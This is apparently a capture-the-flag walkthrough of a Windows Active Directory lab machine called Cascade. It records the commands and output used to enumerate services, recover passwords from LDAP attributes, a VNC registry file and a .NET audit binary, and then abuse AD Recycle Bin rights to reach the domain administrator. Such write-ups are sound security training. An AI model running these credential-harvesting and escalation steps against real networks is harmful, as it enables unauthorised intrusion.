


# Cascade
## Enumeration
- `nmap`
```
└─$ nmap -Pn -p- 10.10.10.182 -T4                                                            
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-05 20:29 BST
Stats: 0:03:02 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 43.53% done; ETC: 20:36 (0:03:56 remaining)
Nmap scan report for 10.10.10.182 (10.10.10.182)
Host is up (0.093s latency).
Not shown: 65525 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
49154/tcp open  unknown
49155/tcp open  unknown
49157/tcp open  unknown
49170/tcp open  unknown
```
```
└─$ nmap -Pn -p53,88,135,389,445,636,3268,3269,5985 -sC -sV 10.10.10.182 -T4
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-05 20:33 BST
Nmap scan report for 10.10.10.182 (10.10.10.182)
Host is up (0.15s latency).

PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-09-05 19:33:09Z)
135/tcp  open  msrpc         Microsoft Windows RPC
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: cascade.local, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: cascade.local, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: CASC-DC1; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-09-05T19:33:17
|_  start_date: 2023-09-05T19:28:19
|_clock-skew: -36s
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled and required
```
- `smb`
```
└─$ smbclient -N -L //10.10.10.182                                                                                                           
Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.10.182 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available

```

## Foothold/User #1
- `rpcclient`
  - https://book.hacktricks.xyz/network-services-pentesting/pentesting-smb/rpcclient-enumeration
```
└─$ rpcclient -U '' -N 10.10.10.182      
rpcclient $> querydispinfo 
index: 0xee0 RID: 0x464 acb: 0x00000214 Account: a.turnbull     Name: Adrian Turnbull   Desc: (null)
index: 0xebc RID: 0x452 acb: 0x00000210 Account: arksvc Name: ArkSvc    Desc: (null)
index: 0xee4 RID: 0x468 acb: 0x00000211 Account: b.hanson       Name: Ben Hanson        Desc: (null)
index: 0xee7 RID: 0x46a acb: 0x00000210 Account: BackupSvc      Name: BackupSvc Desc: (null)
index: 0xdeb RID: 0x1f5 acb: 0x00000215 Account: CascGuest      Name: (null)    Desc: Built-in account for guest access to the computer/domain
index: 0xee5 RID: 0x469 acb: 0x00000210 Account: d.burman       Name: David Burman      Desc: (null)
index: 0xee3 RID: 0x467 acb: 0x00000211 Account: e.crowe        Name: Edward Crowe      Desc: (null)
index: 0xeec RID: 0x46f acb: 0x00000211 Account: i.croft        Name: Ian Croft Desc: (null)
index: 0xeeb RID: 0x46e acb: 0x00000210 Account: j.allen        Name: Joseph Allen      Desc: (null)
index: 0xede RID: 0x462 acb: 0x00000210 Account: j.goodhand     Name: John Goodhand     Desc: (null)
index: 0xed7 RID: 0x45c acb: 0x00000210 Account: j.wakefield    Name: James Wakefield   Desc: (null)
index: 0xeca RID: 0x455 acb: 0x00000210 Account: r.thompson     Name: Ryan Thompson     Desc: (null)
index: 0xedd RID: 0x461 acb: 0x00000210 Account: s.hickson      Name: Stephanie Hickson Desc: (null)
index: 0xebd RID: 0x453 acb: 0x00000210 Account: s.smith        Name: Steve Smith       Desc: (null)
index: 0xed2 RID: 0x457 acb: 0x00000210 Account: util   Name: Util      Desc: (null)
```
- `ldap`
```
└─$ ldapsearch -H ldap://10.10.10.182 -x -s base namingcontexts
# extended LDIF
#
# LDAPv3
# base <> (default) with scope baseObject
# filter: (objectclass=*)
# requesting: namingcontexts 
#

#
dn:
namingContexts: DC=cascade,DC=local
namingContexts: CN=Configuration,DC=cascade,DC=local
namingContexts: CN=Schema,CN=Configuration,DC=cascade,DC=local
namingContexts: DC=DomainDnsZones,DC=cascade,DC=local
namingContexts: DC=ForestDnsZones,DC=cascade,DC=local

# search result
search: 2
result: 0 Success

# numResponses: 2
# numEntries: 1
```
```
└─$ ldapsearch -H ldap://10.10.10.182 -x -b "DC=cascade,DC=local"
...
```
- Only users 
```
└─$ ldapsearch -H ldap://10.10.10.182 -x -b "DC=cascade,DC=local" '(objectClass=person)'
# extended LDIF
#
# LDAPv3
# base <DC=cascade,DC=local> with scope subtree
# filter: (objectClass=person)
# requesting: ALL
#

# CascGuest, Users, cascade.local
dn: CN=CascGuest,CN=Users,DC=cascade,DC=local
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: CascGuest
...
# Ryan Thompson, Users, UK, cascade.local
dn: CN=Ryan Thompson,OU=Users,OU=UK,DC=cascade,DC=local
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: Ryan Thompson
sn: Thompson
givenName: Ryan
distinguishedName: CN=Ryan Thompson,OU=Users,OU=UK,DC=cascade,DC=local
instanceType: 4
whenCreated: 20200109193126.0Z
whenChanged: 20200323112031.0Z
displayName: Ryan Thompson
uSNCreated: 24610
memberOf: CN=IT,OU=Groups,OU=UK,DC=cascade,DC=local
uSNChanged: 295010
name: Ryan Thompson
objectGUID:: LfpD6qngUkupEy9bFXBBjA==
userAccountControl: 66048
badPwdCount: 0
codePage: 0
countryCode: 0
badPasswordTime: 132247339091081169
lastLogoff: 0
lastLogon: 132247339125713230
pwdLastSet: 132230718862636251
primaryGroupID: 513
objectSid:: AQUAAAAAAAUVAAAAMvuhxgsd8Uf1yHJFVQQAAA==
accountExpires: 9223372036854775807
logonCount: 2
sAMAccountName: r.thompson
sAMAccountType: 805306368
userPrincipalName: r.thompson@cascade.local
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=cascade,DC=local
dSCorePropagationData: 20200126183918.0Z
dSCorePropagationData: 20200119174753.0Z
dSCorePropagationData: 20200119174719.0Z
dSCorePropagationData: 20200119174508.0Z
dSCorePropagationData: 16010101000000.0Z
lastLogonTimestamp: 132294360317419816
msDS-SupportedEncryptionTypes: 0
cascadeLegacyPwd: clk0bjVldmE=
...
```
- Interesting entry `cascadeLegacyPwd: clk0bjVldmE=` for `r.thompson`
  - Decode it from `base64`
  - `r.thompson:rY4n5eva`

```
└─$ echo "clk0bjVldmE=" | base64 -d                                             
rY4n5eva 
```

- Let's test the creds for `winrm`
  - We only have access to `smb`
```
└─$ crackmapexec winrm 10.10.10.182 -u r.thompson -p rY4n5eva
SMB         10.10.10.182    5985   CASC-DC1         [*] Windows 6.1 Build 7601 (name:CASC-DC1) (domain:cascade.local)
HTTP        10.10.10.182    5985   CASC-DC1         [*] http://10.10.10.182:5985/wsman
WINRM       10.10.10.182    5985   CASC-DC1         [-] cascade.local\r.thompson:rY4n5eva
```
```
└─$ crackmapexec smb 10.10.10.182 -u r.thompson -p rY4n5eva  
SMB         10.10.10.182    445    CASC-DC1         [*] Windows 6.1 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)
SMB         10.10.10.182    445    CASC-DC1         [+] cascade.local\r.thompson:rY4n5eva 

```

- `Data` share
```
└─$ smbclient  //10.10.10.182/Data -U 'r.thompson%rY4n5eva'   
Try "help" to get a list of possible commands.
smb: \> prompt off
smb: \> recurce on
recurce: command not found
smb: \> recurse on
smb: \> mget *
NT_STATUS_ACCESS_DENIED listing \Contractors\*
NT_STATUS_ACCESS_DENIED listing \Finance\*
NT_STATUS_ACCESS_DENIED listing \Production\*
NT_STATUS_ACCESS_DENIED listing \Temps\*
getting file \IT\Email Archives\Meeting_Notes_June_2018.html of size 2522 as IT/Email Archives/Meeting_Notes_June_2018.html (4.8 KiloBytes/sec) (average 4.8 KiloBytes/sec)
getting file \IT\Logs\Ark AD Recycle Bin\ArkAdRecycleBin.log of size 1303 as IT/Logs/Ark AD Recycle Bin/ArkAdRecycleBin.log (2.5 KiloBytes/sec) (average 3.7 KiloBytes/sec)
getting file \IT\Logs\DCs\dcdiag.log of size 5967 as IT/Logs/DCs/dcdiag.log (7.9 KiloBytes/sec) (average 5.4 KiloBytes/sec)
getting file \IT\Temp\s.smith\VNC Install.reg of size 2680 as IT/Temp/s.smith/VNC Install.reg (5.8 KiloBytes/sec) (average 5.5 KiloBytes/sec)
smb: \> exit

```

- `Meeting_Notes_June_2018.html`


- `VNC Install.reg`
```
└─$ cat IT/Temp/s.smith/VNC\ Install.reg 
Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SOFTWARE\TightVNC]

[HKEY_LOCAL_MACHINE\SOFTWARE\TightVNC\Server]
"ExtraPorts"=""
"QueryTimeout"=dword:0000001e
"QueryAcceptOnTimeout"=dword:00000000
"LocalInputPriorityTimeout"=dword:00000003
"LocalInputPriority"=dword:00000000
"BlockRemoteInput"=dword:00000000
"BlockLocalInput"=dword:00000000
"IpAccessControl"=""
"RfbPort"=dword:0000170c
"HttpPort"=dword:000016a8
"DisconnectAction"=dword:00000000
"AcceptRfbConnections"=dword:00000001
"UseVncAuthentication"=dword:00000001
"UseControlAuthentication"=dword:00000000
"RepeatControlAuthentication"=dword:00000000
"LoopbackOnly"=dword:00000000
"AcceptHttpConnections"=dword:00000001
"LogLevel"=dword:00000000
"EnableFileTransfers"=dword:00000001
"RemoveWallpaper"=dword:00000001
"UseD3D"=dword:00000001
"UseMirrorDriver"=dword:00000001
"EnableUrlParams"=dword:00000001
"Password"=hex:6b,cf,2a,4b,6e,5a,ca,0f
"AlwaysShared"=dword:00000000
"NeverShared"=dword:00000000
"DisconnectClients"=dword:00000001
"PollingInterval"=dword:000003e8
"AllowLoopback"=dword:00000000
"VideoRecognitionInterval"=dword:00000bb8
"GrabTransparentWindows"=dword:00000001
"SaveLogToAllUsersPath"=dword:00000000
"RunControlInterface"=dword:00000001
"IdleTimeout"=dword:00000000
"VideoClasses"=""
"VideoRects"=""
```
- Let's crack the `Password`
  - `6bcf2a4b6e5aca0f`
  - I followed the following [post](https://github.com/frizb/PasswordDecrypts)
```
msf6 > irb
[*] Starting IRB shell...
[*] You are in the "framework" object

irb: warn: can't alias jobs from irb_jobs.
>> fixedkey = "\x17\x52\x6b\x06\x23\x4e\x58\x07"
=> "\x17Rk\x06#NX\a"
>> require 'rex/proto/rfb'
=> true
>> Rex::Proto::RFB::Cipher.decrypt ["6bcf2a4b6e5aca0f"].pack('H*'), fixedkey
=> "sT333ve2"
```

- Test with `crackmapexec` 
```
└─$ crackmapexec winrm 10.10.10.182 -u s.smith -p sT333ve2
SMB         10.10.10.182    5985   CASC-DC1         [*] Windows 6.1 Build 7601 (name:CASC-DC1) (domain:cascade.local)
HTTP        10.10.10.182    5985   CASC-DC1         [*] http://10.10.10.182:5985/wsman
WINRM       10.10.10.182    5985   CASC-DC1         [+] cascade.local\s.smith:sT333ve2 (Pwn3d!)
```

- Let's get `winrm`


## User #2
- `whoami`
```
*Evil-WinRM* PS C:\Users\s.smith\Documents> net user s.smith /domain
User name                    s.smith
Full Name                    Steve Smith
Comment
User's comment
Country code                 000 (System Default)
Account active               Yes
Account expires              Never

Password last set            1/28/2020 8:58:05 PM
Password expires             Never
Password changeable          1/28/2020 8:58:05 PM
Password required            Yes
User may change password     No

Workstations allowed         All
Logon script                 MapAuditDrive.vbs
User profile
Home directory
Last logon                   1/29/2020 12:26:39 AM

Logon hours allowed          All

Local Group Memberships      *Audit Share          *IT
                             *Remote Management Use
Global Group memberships     *Domain Users
The command completed successfully.

```
```
*Evil-WinRM* PS C:\Users\s.smith\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```
```
*Evil-WinRM* PS C:\Users\s.smith\Documents> whoam /groups

GROUP INFORMATION
-----------------

Group Name                                  Type             SID                                            Attributes
=========================================== ================ ============================================== ===============================================================
Everyone                                    Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554                                   Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15                                       Mandatory group, Enabled by default, Enabled group
CASCADE\Data Share                          Alias            S-1-5-21-3332504370-1206983947-1165150453-1138 Mandatory group, Enabled by default, Enabled group, Local Group
CASCADE\Audit Share                         Alias            S-1-5-21-3332504370-1206983947-1165150453-1137 Mandatory group, Enabled by default, Enabled group, Local Group
CASCADE\IT                                  Alias            S-1-5-21-3332504370-1206983947-1165150453-1113 Mandatory group, Enabled by default, Enabled group, Local Group
CASCADE\Remote Management Users             Alias            S-1-5-21-3332504370-1206983947-1165150453-1126 Mandatory group, Enabled by default, Enabled group, Local Group
NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10                                    Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448
```
- We have another user `arksvc`
```
*Evil-WinRM* PS C:\Users> ls


    Directory: C:\Users


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        3/25/2020  11:17 AM                Administrator
d-----        1/28/2020  11:37 PM                arksvc
d-r---        7/14/2009   5:57 AM                Public
d-----        1/15/2020  10:22 PM                s.smith
```
- Let's check `Audit Share` group
```
*Evil-WinRM* PS C:\Shares> net localgroup "Audit Share"
Alias name     Audit Share
Comment        \\Casc-DC1\Audit$

Members

-------------------------------------------------------------------------------
s.smith
The command completed successfully.
```
```
*Evil-WinRM* PS C:\Shares> ls \\Casc-DC1\Audit$


    Directory: \\Casc-DC1\Audit$


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        1/28/2020   9:40 PM                DB
d-----        1/26/2020  10:25 PM                x64
d-----        1/26/2020  10:25 PM                x86
-a----        1/28/2020   9:46 PM          13312 CascAudit.exe
-a----        1/29/2020   6:00 PM          12288 CascCrypto.dll
-a----        1/28/2020  11:29 PM             45 RunAudit.bat
-a----       10/27/2019   6:38 AM         363520 System.Data.SQLite.dll
-a----       10/27/2019   6:38 AM         186880 System.Data.SQLite.EF6.dll
```
- Let's download it via `smb`
```
└─$ smbclient -U 's.smith%sT333ve2' //10.10.10.182/Audit$         
Try "help" to get a list of possible commands.
smb: \>  prompt OFF
smb: \> recurse on
smb: \> mget *
getting file \CascAudit.exe of size 13312 as CascAudit.exe (22.8 KiloBytes/sec) (average 22.8 KiloBytes/sec)
getting file \CascCrypto.dll of size 12288 as CascCrypto.dll (26.0 KiloBytes/sec) (average 24.2 KiloBytes/sec)
getting file \RunAudit.bat of size 45 as RunAudit.bat (0.1 KiloBytes/sec) (average 14.7 KiloBytes/sec)
getting file \System.Data.SQLite.dll of size 363520 as System.Data.SQLite.dll (135.8 KiloBytes/sec) (average 88.0 KiloBytes/sec)
getting file \System.Data.SQLite.EF6.dll of size 186880 as System.Data.SQLite.EF6.dll (177.4 KiloBytes/sec) (average 105.2 KiloBytes/sec)
getting file \DB\Audit.db of size 24576 as DB/Audit.db (51.4 KiloBytes/sec) (average 100.9 KiloBytes/sec)
getting file \x64\SQLite.Interop.dll of size 1639936 as x64/SQLite.Interop.dll (400.5 KiloBytes/sec) (average 223.0 KiloBytes/sec)
getting file \x86\SQLite.Interop.dll of size 1246720 as x86/SQLite.Interop.dll (557.2 KiloBytes/sec) (average 283.9 KiloBytes/sec)
smb: \> 

```
- `DB/RunAudit.bat`
```
└─$ cat RunAudit.bat                    
CascAudit.exe "\\CASC-DC1\Audit$\DB\Audit.db"
```
- `Audit.db`
```
└─$ file Audit.db                                                                                                                                                
Audit.db: SQLite 3.x database, last written using SQLite version 3027002, file counter 60, database pages 6, 1st free page 6, free pages 1, cookie 0x4b, schema 4, UTF-8, version-valid-for 60
└─$ sqlite3 Audit.db 
SQLite version 3.42.0 2023-05-16 12:36:15
Enter ".help" for usage hints.
sqlite> .tables
DeletedUserAudit  Ldap              Misc            
sqlite> select * from DeletedUserAudit;
6|test|Test
DEL:ab073fb7-6d91-4fd1-b877-817b9e1b0e6d|CN=Test\0ADEL:ab073fb7-6d91-4fd1-b877-817b9e1b0e6d,CN=Deleted Objects,DC=cascade,DC=local
7|deleted|deleted guy
DEL:8cfe6d14-caba-4ec0-9d3e-28468d12deef|CN=deleted guy\0ADEL:8cfe6d14-caba-4ec0-9d3e-28468d12deef,CN=Deleted Objects,DC=cascade,DC=local
9|TempAdmin|TempAdmin
DEL:5ea231a1-5bb4-4917-b07a-75a57f4c188a|CN=TempAdmin\0ADEL:5ea231a1-5bb4-4917-b07a-75a57f4c188a,CN=Deleted Objects,DC=cascade,DC=local
sqlite> select * from Ldap;
1|ArkSvc|BQO5l5Kj9MdErXx6Q6AGOw==|cascade.local
sqlite> select * from Misc;
sqlite> 
```
- `CascAudit.exe`
```
└─$ file CascAudit.exe
CascAudit.exe: PE32 executable (console) Intel 80386 Mono/.Net assembly, for MS Windows, 3 sections
```
- Let's analyse it with `dnspy`




- We can `debug` it so it will decrypt the password for us




- We have our creds 
  - `arksvc:w3lc0meFr31nd`
```
└─$ crackmapexec winrm 10.10.10.182 -u arksvc -p w3lc0meFr31nd
SMB         10.10.10.182    5985   CASC-DC1         [*] Windows 6.1 Build 7601 (name:CASC-DC1) (domain:cascade.local)
HTTP        10.10.10.182    5985   CASC-DC1         [*] http://10.10.10.182:5985/wsman
WINRM       10.10.10.182    5985   CASC-DC1         [+] cascade.local\arksvc:w3lc0meFr31nd (Pwn3d!)

```


## Root
- `whoami`
```
*Evil-WinRM* PS C:\Users\arksvc\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```
```
*Evil-WinRM* PS C:\Users\arksvc\Documents> whoami /groups

GROUP INFORMATION
-----------------

Group Name                                  Type             SID                                            Attributes
=========================================== ================ ============================================== ===============================================================
Everyone                                    Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554                                   Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15                                       Mandatory group, Enabled by default, Enabled group
CASCADE\Data Share                          Alias            S-1-5-21-3332504370-1206983947-1165150453-1138 Mandatory group, Enabled by default, Enabled group, Local Group
CASCADE\IT                                  Alias            S-1-5-21-3332504370-1206983947-1165150453-1113 Mandatory group, Enabled by default, Enabled group, Local Group
CASCADE\AD Recycle Bin                      Alias            S-1-5-21-3332504370-1206983947-1165150453-1119 Mandatory group, Enabled by default, Enabled group, Local Group
CASCADE\Remote Management Users             Alias            S-1-5-21-3332504370-1206983947-1165150453-1126 Mandatory group, Enabled by default, Enabled group, Local Group
NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10                                    Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448

```
- `AD Recycle Bin` - `enables users to recover deleted Active Directory objects without having to restore them from backup, restart Active Directory Domain Services or reboot domain controllers (DCs)`
  - The [post](https://blog.stealthbits.com/active-directory-object-recovery-recycle-bin/)
    - https://hideandsec.sh/books/red-teaming/page/domain-control-elevation#bkmrk-0x10-ad-recycle-bin
    - Also https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/privileged-groups-and-token-privileges#a-d-recycle-bin
  - We can query it
```
*Evil-WinRM* PS C:\Users\arksvc\Documents> Get-ADObject -filter 'isDeleted -eq $true -and name -ne "Deleted Objects"' -includeDeletedObjects


Deleted           : True
DistinguishedName : CN=CASC-WS1\0ADEL:6d97daa4-2e82-4946-a11e-f91fa18bfabe,CN=Deleted Objects,DC=cascade,DC=local
Name              : CASC-WS1
                    DEL:6d97daa4-2e82-4946-a11e-f91fa18bfabe
ObjectClass       : computer
ObjectGUID        : 6d97daa4-2e82-4946-a11e-f91fa18bfabe

Deleted           : True
DistinguishedName : CN=Scheduled Tasks\0ADEL:13375728-5ddb-4137-b8b8-b9041d1d3fd2,CN=Deleted Objects,DC=cascade,DC=local
Name              : Scheduled Tasks
                    DEL:13375728-5ddb-4137-b8b8-b9041d1d3fd2
ObjectClass       : group
ObjectGUID        : 13375728-5ddb-4137-b8b8-b9041d1d3fd2

Deleted           : True
DistinguishedName : CN={A403B701-A528-4685-A816-FDEE32BDDCBA}\0ADEL:ff5c2fdc-cc11-44e3-ae4c-071aab2ccc6e,CN=Deleted Objects,DC=cascade,DC=local
Name              : {A403B701-A528-4685-A816-FDEE32BDDCBA}
                    DEL:ff5c2fdc-cc11-44e3-ae4c-071aab2ccc6e
ObjectClass       : groupPolicyContainer
ObjectGUID        : ff5c2fdc-cc11-44e3-ae4c-071aab2ccc6e

Deleted           : True
DistinguishedName : CN=Machine\0ADEL:93c23674-e411-400b-bb9f-c0340bda5a34,CN=Deleted Objects,DC=cascade,DC=local
Name              : Machine
                    DEL:93c23674-e411-400b-bb9f-c0340bda5a34
ObjectClass       : container
ObjectGUID        : 93c23674-e411-400b-bb9f-c0340bda5a34

Deleted           : True
DistinguishedName : CN=User\0ADEL:746385f2-e3a0-4252-b83a-5a206da0ed88,CN=Deleted Objects,DC=cascade,DC=local
Name              : User
                    DEL:746385f2-e3a0-4252-b83a-5a206da0ed88
ObjectClass       : container
ObjectGUID        : 746385f2-e3a0-4252-b83a-5a206da0ed88

Deleted           : True
DistinguishedName : CN=TempAdmin\0ADEL:f0cc344d-31e0-4866-bceb-a842791ca059,CN=Deleted Objects,DC=cascade,DC=local
Name              : TempAdmin
                    DEL:f0cc344d-31e0-4866-bceb-a842791ca059
ObjectClass       : user
ObjectGUID        : f0cc344d-31e0-4866-bceb-a842791ca059
```
- `TempAdmin` is interesting since we saw it in the `email` message
  - It should have the same password as `Administrator`
```
*Evil-WinRM* PS C:\Users\arksvc\Documents> Get-ADObject -filter { SAMAccountName -eq "TempAdmin" } -includeDeletedObjects -property *


accountExpires                  : 9223372036854775807
badPasswordTime                 : 0
badPwdCount                     : 0
CanonicalName                   : cascade.local/Deleted Objects/TempAdmin
                                  DEL:f0cc344d-31e0-4866-bceb-a842791ca059
cascadeLegacyPwd                : YmFDVDNyMWFOMDBkbGVz
CN                              : TempAdmin
                                  DEL:f0cc344d-31e0-4866-bceb-a842791ca059
codePage                        : 0
countryCode                     : 0
Created                         : 1/27/2020 3:23:08 AM
createTimeStamp                 : 1/27/2020 3:23:08 AM
Deleted                         : True
Description                     :
DisplayName                     : TempAdmin
DistinguishedName               : CN=TempAdmin\0ADEL:f0cc344d-31e0-4866-bceb-a842791ca059,CN=Deleted Objects,DC=cascade,DC=local
dSCorePropagationData           : {1/27/2020 3:23:08 AM, 1/1/1601 12:00:00 AM}
givenName                       : TempAdmin
instanceType                    : 4
isDeleted                       : True
LastKnownParent                 : OU=Users,OU=UK,DC=cascade,DC=local
lastLogoff                      : 0
lastLogon                       : 0
logonCount                      : 0
Modified                        : 1/27/2020 3:24:34 AM
modifyTimeStamp                 : 1/27/2020 3:24:34 AM
msDS-LastKnownRDN               : TempAdmin
Name                            : TempAdmin
                                  DEL:f0cc344d-31e0-4866-bceb-a842791ca059
nTSecurityDescriptor            : System.DirectoryServices.ActiveDirectorySecurity
ObjectCategory                  :
ObjectClass                     : user
ObjectGUID                      : f0cc344d-31e0-4866-bceb-a842791ca059
objectSid                       : S-1-5-21-3332504370-1206983947-1165150453-1136
primaryGroupID                  : 513
ProtectedFromAccidentalDeletion : False
pwdLastSet                      : 132245689883479503
sAMAccountName                  : TempAdmin
sDRightsEffective               : 0
userAccountControl              : 66048
userPrincipalName               : TempAdmin@cascade.local
uSNChanged                      : 237705
uSNCreated                      : 237695
whenChanged                     : 1/27/2020 3:24:34 AM
whenCreated                     : 1/27/2020 3:23:08 AM
```

- The property `cascadeLegacyPwd` has a value
  - Let's decrypt it
```
└─$ echo "YmFDVDNyMWFOMDBkbGVz" | base64 -d    
baCT3r1aN00dles 
```

- The password works for `Administrator`
```
└─$ crackmapexec winrm 10.10.10.182 -u administrator -p baCT3r1aN00dles
SMB         10.10.10.182    5985   CASC-DC1         [*] Windows 6.1 Build 7601 (name:CASC-DC1) (domain:cascade.local)
HTTP        10.10.10.182    5985   CASC-DC1         [*] http://10.10.10.182:5985/wsman
WINRM       10.10.10.182    5985   CASC-DC1         [+] cascade.local\administrator:baCT3r1aN00dles (Pwn3d!)
```

